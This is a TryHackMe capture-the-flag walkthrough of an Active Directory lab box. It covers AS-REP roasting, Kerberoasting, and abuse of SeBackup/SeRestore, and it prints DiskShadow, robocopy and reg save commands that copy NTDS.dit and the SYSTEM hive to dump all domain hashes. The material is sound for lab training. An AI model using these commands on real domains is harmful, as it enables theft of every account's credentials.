









This box is rated medium difficulty on THM. It involves us exploiting plenty of Active Directory components to pivot through accounts and find grab a remote admin's NTLM hash. We can then clone the C:\ drive and extract user hashes from NTDS.dit by abusing SeBackup and SeRestore privileges.

_These guys call themselves hackers. Can you show them who's the boss??_

## Scanning & Enumeration
First things first, I start an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -sCV 10.67.130.163 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-11 23:28 CST
Nmap scan report for 10.67.130.163
Host is up (0.051s latency).
Not shown: 985 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-12 05:28:11Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2026-02-11T05:25:50
|_Not valid after:  2026-08-13T05:25:50
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-02-12T05:28:54+00:00
|_ssl-date: 2026-02-12T05:29:02+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-12T05:28:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.95 seconds
```

Looks like we're dealing with a Windows machine with Active Directory components installed. Default scripts leak the FQDN of HAVEN-DC.raz0rblack.thm and another domain without the first part, so I add those to my `/etc/hosts` file. I'll start enumeration on some easier services as there's quite a lot going on here.

Rpcbind on port 111 shows that NFS is running on port 2049. Using the showmount command reveals a users share with Steven's flag and an employee status excel worksheet which we can use to get other account names.


I open this `.xlsx` file using LibreOffice to find a spreadsheet of hacker's names along with their roles. The high-priority targets will be Ljudmila's credentials as they're the lead developer and AD administrator and maybe Tyson's for any info on exploiting binaries later on.


Next up is testing if guest authentication is enabled on SMB, if not we'll try brute forcing logins for the high priority accounts.



## Kerberoasting
Looks like we'll need credentials to rip files from that server. Next I want to test those usernames against [Kerbrute](https://github.com/ropnop/kerbrute) to find which ones are valid accounts.


Awesome, next I'll use [IMpacket's GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to check if any have Kerberos pre-auth disabled in hopes to catch a user's NTLM hash.


That succeeds in returning one for twilliams which we can now send over to Hashcat or JohnTheRipper in order to get the plaintext version.


Using these credentials to authenticate over SMB show that we only have normal system shares that won't give us much information in regards to pivoting. The trash share does seem interesting so I keep that in mind as subsequent accounts may have access to read/write to it.



I retried this password for any other accounts in the event that it was the domain's default password or something and found that sbradley's account needed to changed.



I knew we needed to change the password, at first I tried to do so over RPC in case we were in a security group that could do that, but it failed. Switching to other tools just kept throwing timeout errors so I move on to other routes (my box had crashed I just didn't know it yet).

Initial Foothold
Since we had a valid hash, I tried using [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) in order to perform a Kerberoasting attack with twilliam's creds in hopes to find anyone else's password.



This gives me a TGS hash for the user `xyan1d3` which I send over to JTR to crack again. 


Now let's authenticate over SMB as them and see what we have available.


## Privilege Escalation
Looks like this account is a remote admin which means we can WinRM onto the box to take a peak internally. Our account has access to the SeBackup and SeRestore privileges.


Using those special privs, we can actually make a clone of the `C:\` drive using a Windows utility named DiskShadow and then copy the `NTDS.dit` (Active Directory credential archive file) and the `SYSTEM` hive in order to dump all account passwords on the domain. When making the copy of `C:\`, we move it to another drive exposed to the network in order to copy files from it back onto our attacking machine. The second step is done using another utility named RoboCopy.

I have other writeups such as [THM-K2](https://cbev0x.github.io/posts/TryHackMe-K2/) and [HTB-Blackfield](https://cbev0x.github.io/posts/HackTheBox-Blackfield/) that cover this as well, so I'll keep it surface level, but this is a cool privesc technique. There's also [this article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) which dives in-depth on a few more ways to exploit these privileges.

Firstly, we need a `.dsh` file that will be executed by the DiskShadow exectuable. This utility allows for script execution via the `/s` option so we can create a file on our attacking machine and upload it via Evil-WinRM or Invoke-WebRequest. Be sure to convert this file using `unix2dos` so that it's in a format Windows is able to read.

```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Then run it on the target machine:

```
diskshadow /s exploit.dsh
```



Now let's copy the `NTDS.dit` file from the exposed drive to our current directory.

```
robocopy /b E:\Windows\ntds . ntds.dit
```



In order for us to decrypt `NTDS.dit`, we'll need the boot key from the `SYSTEM` hive so we can actually extract these hashes. 

```
reg save hklm\system C:\Users\xyan1d3\system.bak

download system.bak
download ntds.dit
```


Finally, I use [IMpacket's SecretsDump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to extract all hashes to gain administrator access over the box.


## Post-Exploitation
Now that we're in every security group and have obtained all hashes, we can grab every flag from each users' home directory.



### Xyan1d3's flag
This one is stored in an XML file in form of a network credential. The syntax for retrieving it goes as follows:

```
$credential = Import-Clixml -Path .\xyan1d3.xml
$password = $credential.GetNetworkCredential().Password
Write-Host "Password: $password"
```


### Root flag
I attempted to do the same to dump the root flag, but it kept throwing a cryptographic exception at me. It seemed like this password was invalid and when I checked, I recognized it to just be hex encoded.


Sending that over to CyberChef to Hex decode it gives us the root flag along with a message from the box's creator.


### Tyson's Flag
This flag is just in plaintext under his home directory under a very long filename.


Just use the type command to print it.


### Complete Top Secret
Taking a look into the Program Files folder shows a Top Secret directory, and inside is a `.png` file. 


After downloading that to my attacking machine for further inspection, I open it with the xdg-open command to find a very gate-kept piece of information. 


### Zip File Password
The zip file is located under the trash SMB share that Lvetrova's account has access to. After downloading the `.zip` file, I convert it to a crackable format using zip2john and send it to JohnTheRipper.



### Ljudmila's Flag
This one is under levtrova's home directory and can be accessed with the same commands as before to dump the network credential.

```
$credential = Import-Clixml -Path .\lvetrova.xml
$credential.GetNetworkCredential().Password
```



As for the rest of the answers, we can crack the NTLM hashes gathered from secretsdump using Hashcat or JTR in order to get their plaintext variants. That's all y'all, this box was pretty fun as it explored a lot of exploits within Active Directory. I hope this was helpful to anyone following along or stuck and happy hacking!
